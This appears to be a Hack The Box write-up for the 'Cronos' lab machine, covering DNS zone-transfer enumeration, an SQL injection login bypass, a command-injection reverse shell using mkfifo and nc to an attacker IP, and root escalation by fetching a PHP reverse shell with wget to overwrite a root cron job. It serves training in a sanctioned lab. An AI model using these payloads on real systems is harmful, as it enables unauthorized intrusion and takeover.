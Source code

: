 ```yaml
---
layout: post
title: Cronos(HTB)
categories:
  - Writeup
---
```


<br>OS Linux
<br>IP: 10.10.10.13

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.13</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-22 02:36 EST
<br>Nmap scan report for 10.10.10.13
<br>Host is up (0.17s latency).
<br>Not shown: 997 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font> open  ssh     <font color="53E100">OpenSSH 7.2p2</font> Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol <br>2.0)
<br>| ssh-hostkey: 
<br>|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
<br>|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
<br>|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (EdDSA)
<br><font color="BB69EC">53/tcp</font> open  domain  <font color="53E100">ISC BIND 9.10.3-P4-Ubuntu</font>
<br>| dns-nsid: 
<br>|_  bind.version: 9.10.3-P4-Ubuntu
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Apache httpd 2.4.18</font> ((Ubuntu))
<br>|_http-server-header: Apache/2.4.18 (Ubuntu)
<br>|_http-title: Apache2 Ubuntu Default Page: It works
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: Linux 3.10 - 4.8 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.8 (92%), Linux 3.8 - 3.11 (92%), Linux 4.4 (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</p>

<p>TRACEROUTE (using port 53/tcp)
<br>HOP RTT       ADDRESS
<br>1   165.88 ms 10.10.14.1
<br>2   165.97 ms 10.10.10.13</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 44.20 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>Port 53 is open So let's enumerate that first

<font size="1">
<div style="height:80px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># dnsrecon -n 10.10.10.13 -r 10.10.10.0/24
<br><font color="RoyalBlue">[*]</font> Reverse Look-up of a Range
<br><font color="RoyalBlue">[*]</font> Performing Reverse Lookup from 10.10.10.0 to 10.10.10.255
<br><font color="RoyalBlue">[*]</font> 	 PTR ns1.cronos.htb 10.10.10.13
<br><font color="53E100">[*]</font> 1 Records Found
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>There is a name server avaialble and the Domain name is **cronos.htb**
<br>To under start how DNS server works and how we can enumerate and exploit you can read these 2 blogs [Pentest-lab](https://pentestlab.blog/2012/11/13/dns-reconnaissance-dnsrecon/),[INFOSEC-INSTITUTE](http://resources.infosecinstitute.com/dns-hacking/).
<br>Now we know there is a dns domain which is a name server ns1.cronos.htb in our target machine.
<br>Now we will try to extract more details from it.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># host -a -l cronos.htb 10.10.10.13
<br>Trying "cronos.htb"
<br>Using domain server:
<br>Name: 10.10.10.13
<br>Address: 10.10.10.13#53
<br>Aliases:</p> 

<p>;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 56023
<br>;; flags: qr aa ra; QUERY: 1, ANSWER: 7, AUTHORITY: 0, ADDITIONAL: 0</p>

<p>;; QUESTION SECTION:
<br>;cronos.htb.			IN	AXFR</p>

<p>;; ANSWER SECTION:
<br>cronos.htb.		604800	IN	SOA	cronos.htb. <font color="ffff00">admin.cronos.htb</font>. 3 604800 86400 2419200 604800
<br>cronos.htb.		604800	IN	NS	ns1.cronos.htb.
<br>cronos.htb.		604800	IN	A	10.10.10.13
<br>admin.cronos.htb.	604800	IN	A	10.10.10.13
<br>ns1.cronos.htb.		604800	IN	A	10.10.10.13
<br>www.cronos.htb.		604800	IN	A	10.10.10.13
<br>cronos.htb.		604800	IN	SOA	cronos.htb. <font color="ffff00">admin.cronos.htb</font>. 3 604800 86400 2419200 604800</p>

<p>Received 192 bytes from 10.10.10.13#53 in 167 ms
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>As you can see we found a new sub domain which is admin.cronos.htb
<br>Now add this domain to our known hosts /etc/hosts

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat /etc/hosts
<br>127.0.0.1	localhost
<br>127.0.1.1	kali
<br>10.10.10.65	beehive.ariekei.htb
<br>10.10.10.75	nibbles.htb
<br>10.10.10.13	admin.cronos.htb
<br>10.10.10.79	valentine.htb
<br>10.10.10.80	crimestoppers.htb
<br>10.10.10.61	enterprise.htb
<br>10.10.10.67	inception.htb
<br>10.10.10.69	fluxcapacitor.htb
<br>10.10.10.65	calvin.ariekei.htb
<br>10.10.10.60	sense.htb</p>

<p># The following lines are desirable for IPv6 capable hosts
<br>::1     localhost ip6-localhost ip6-loopback
<br>ff02::1 ip6-allnodes
<br>ff02::2 ip6-allrouters
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>Now open admin.cronos.htb in browser
![1.2](https://teckk2.github.io/assets/images/Cronos/1.2.JPG)
<br>We got a login page.
<br>Now we need access, for that we can use sql injection loggin bypass
<br>**wronguser' or 1=1 LIMIT 1;#**
<br>and in the password section you can put anything I am putting password then click submit.
![2](https://teckk2.github.io/assets/images/Cronos/2.png)
<br>The Application have OS Command injection Vulnerabilty using which we can execute any system command from the WEB.
![3](https://teckk2.github.io/assets/images/Cronos/3.JPG)
**Shell**
![4](https://teckk2.github.io/assets/images/Cronos/4.JPG)
<br>{**8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 4455 >/tmp/f**}

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.13] 53274
<br>/bin/sh: 0: can't access tty; job control turned off
<br>$ python -c 'import pty;pty.spawn("/bin/bash")'
<br>www-data@cronos:/var/www/admin$ cd /home
<br>cd /home
<br>www-data@cronos:/home$ ls
<br>ls
<br>noulis
<br>www-data@cronos:/home$ cd noulis
<br>cd noulis
<br>www-data@cronos:/home/noulis$ ls -la
<br>ls -la
<br>total 44
<br>drwxr-xr-x 4 noulis noulis 4096 Apr  9  2017 .
<br>drwxr-xr-x 3 root   root   4096 Mar 22  2017 ..
<br>-rw------- 1 root   root      1 Dec 24 17:43 .bash_history
<br>-rw-r--r-- 1 noulis noulis  220 Mar 22  2017 .bash_logout
<br>-rw-r--r-- 1 noulis noulis 3771 Mar 22  2017 .bashrc
<br>drwx------ 2 noulis noulis 4096 Mar 22  2017 .cache
<br>drwxr-xr-x 3 root   root   4096 Apr  9  2017 .composer
<br>-rw------- 1 root   root    259 Apr  9  2017 .mysql_history
<br>-rw-r--r-- 1 noulis noulis  655 Mar 22  2017 .profile
<br>-rw-r--r-- 1 root   root     66 Apr  9  2017 .selected_editor
<br>-rw-r--r-- 1 noulis noulis    0 Mar 22  2017 .sudo_as_admin_successful
<br>-r--r--r-- 1 noulis noulis   33 Mar 22  2017 user.txt
<br>www-data@cronos:/home/noulis$ cat user.txt
<br>cat user.txt
<br><font color="53E100">*********************************</font>
<br>www-data@cronos:/home/noulis$ </p>
</div>
</font>

**Privilege Escalation**
<br>If you check the Crontab, there is file with the name artisan in /var/www/laravel/ which is owned by www-data but it is sheduled in crontab with no specified time and with root permission which means the file is executed by root every min.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>www-data@cronos:/etc$ cat crontab
<br>cat crontab
<br># /etc/crontab: system-wide crontab
<br># Unlike any other crontab you don't have to run the `crontab'
<br># command to install the new version when you edit this file
<br># and files in /etc/cron.d. These files also have username fields,
<br># that none of the other crontabs do.</p>

<p>SHELL=/bin/sh
<br>PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin</p>

<p># m h dom mon dow user	command
<br>17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
<br>25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
<br>47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
<br>52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
<br>* * * * *	<font color="red">root</font>	php <font color="ffff00">/var/www/laravel/artisan</font> schedule:run >> /dev/null 2>&1
<br>#
<br>www-data@cronos:/etc$ ls -l /var/www/laravel/artisan
<br>ls -l /var/www/laravel/artisan
<br>-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
<br>www-data@cronos:/etc$ cat /var/www/laravel/artisan
<br>cat /var/www/laravel/artisan
<br>#!/usr/bin/env php
<br><?php</p>

<p>/*
<br>|--------------------------------------------------------------------------
<br>| Register The Auto Loader
<br>|--------------------------------------------------------------------------
<br>|
<br>| Composer provides a convenient, automatically generated class loader
<br>| for our application. We just need to utilize it! We'll require it
<br>| into the script here so that we do not have to worry about the
<br>| loading of any our classes "manually". Feels great to relax.
<br>|
<br>*/</p>

<p>require __DIR__.'/bootstrap/autoload.php';</p>

<p>$app = require_once __DIR__.'/bootstrap/app.php';</p>

<p>/*
<br>|--------------------------------------------------------------------------
<br>| Run The Artisan Application
<br>|--------------------------------------------------------------------------
<br>|
<br>| When we run the console application, the current CLI command will be
<br>| executed in this console and the response sent back to a terminal
<br>| or another output device for the developers. Here goes nothing!
<br>|
<br>*/</p>

<p>$kernel = $app->make(Illuminate\Contracts\Console\Kernel::class);</p>

<p>$status = $kernel->handle(
<br>&nbsp;&nbsp;&nbsp;&nbsp;$input = new Symfony\Component\Console\Input\ArgvInput,
<br>&nbsp;&nbsp;&nbsp;&nbsp;new Symfony\Component\Console\Output\ConsoleOutput
<br>);</p>

<p>/*
<br>|--------------------------------------------------------------------------
<br>| Shutdown The Application
<br>|--------------------------------------------------------------------------
<br>|
<br>| Once Artisan has finished running. We will fire off the shutdown events
<br>| so that any final work may be done by the application before we shut
<br>| down the process. This is the last thing to happen to the request.
<br>|
<br>*/</p>

<p>$kernel->terminate($input, $status);</p>

<p>exit($status);
<br>www-data@cronos:/etc$ </p>

</div>
</font>

<br>As we already know the it's PHP file, So we can replace this file with our PHP reverse shell and gain root access.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>www-data@cronos:/var/www/laravel$ wget http://10.10.*.*:8000/teck-nc.php -O artisan
<br>tisanhttp://10.10.*.*:8000/teck-nc.php -O ar 
<br>--2018-02-22 10:51:02--  http://10.10.*.*:8000/teck-nc.php
<br>Connecting to 10.10.*.*:8000... connected.
<br>HTTP request sent, awaiting response... 200 OK
<br>Length: 5492 (5.4K) [application/octet-stream]
<br>Saving to: 'artisan'</p>

<p>artisan             100%[===================>]   5.36K  --.-KB/s    in 0.001s </p> 

<p>2018-02-22 10:51:02 (5.61 MB/s) - 'artisan' saved [5492/5492]</p>

<br>www-data@cronos:/var/www/laravel$ </p>
</div>
</font>

<br>After replacing the file, just setup the listner and you will get the root shell within 1 min.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 444
<br>listening on [any] 444 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.13] 50824
<br>Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
<br> 11:02:01 up  3:02,  0 users,  load average: 0.00, 0.00, 0.00
<br>USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
<br>uid=0(root) gid=0(root) groups=0(root)
<br>/bin/sh: 0: can't access tty; job control turned off
<br># python -c 'import pty;pty.spawn("/bin/bash")'
<br>root@cronos:/# id
<br>id
<br>uid=0(root) gid=0(root) groups=0(root)
<br>root@cronos:~# ls -la
<br>ls -la
<br>total 32
<br>drwx------  4 root root 4096 Apr  9  2017 .
<br>drwxr-xr-x 23 root root 4096 Apr  9  2017 ..
<br>-rw-------  1 root root    1 Dec 24 17:43 .bash_history
<br>-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
<br>drwx------  2 root root 4096 Mar 22  2017 .cache
<br>drwxr-xr-x  2 root root 4096 Apr  9  2017 .nano
<br>-rw-r--r--  1 root root  148 Aug 17  2015 .profile
<br>-r--------  1 root root   33 Mar 22  2017 root.txt
<br>root@cronos:~# cat root.txt
<br>cat root.txt
<br><font color="53E100">********************************</font>
<br>root@cronos:~#</p>
</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>


